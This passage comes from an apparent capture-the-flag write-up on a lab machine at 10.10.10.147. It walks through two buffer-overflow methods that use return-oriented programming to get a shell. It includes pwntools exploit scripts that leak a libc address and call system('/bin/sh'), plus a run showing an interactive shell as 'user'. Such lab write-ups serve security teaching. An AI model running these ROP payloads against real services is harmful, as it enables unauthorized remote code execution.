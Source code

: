 ```
p.recvline()
p.sendline(payload)
leaked_puts = u64(p.recvline().strip()[7:-11].ljust(8,"\x00"))

log.info("Leaked puts address: %x" % leaked_puts)
libc_base = leaked_puts - 0x68f90
log.info("libc_base: %x" % libc_base)

sh = p64(0x161c19 + libc_base)

payload = junk + pop_rdi + sh + plt_system
p.recvline()
p.sendline(payload)
p.interactive()

```

Now I can run it and get a shell as user:

```

root@kali# ./pwn_safe-m1.py 
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Leaked puts address: 7f8b53974f90
[*] libc_base: 7f8b5390c000
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)

```

#### Method 2: Write /bin/sh

Since I already have access to `system` and `gets`, and all I’m missing is the string `/bin/sh`. So if I can just write that string into memory somewhere that will be statically addressed, then I’m good.

When I look in IDA, I can see the `.data` section is marked Read/Write:

![1571340084992](https://0xdfimages.gitlab.io/img/1571340084992.png)

So I’ll have my ROP call `gets(0x404038)`, send “/bin/sh\x00” to be read by `gets`, and then `system(0x404038)`.

That will look like:

```

#!/usr/bin/env python

from pwn import *

context(os="linux", arch="amd64")
#context(log_level='DEBUG')

junk = "A"*120

plt_gets = p64(0x401060)
plt_system = p64(0x401040)
pop_rdi = p64(0x40120b)
binsh = p64(0x404038)

payload = junk + pop_rdi + binsh + plt_gets + pop_rdi + binsh + plt_system

p = remote("10.10.10.147", 1337)
p.recvline()
```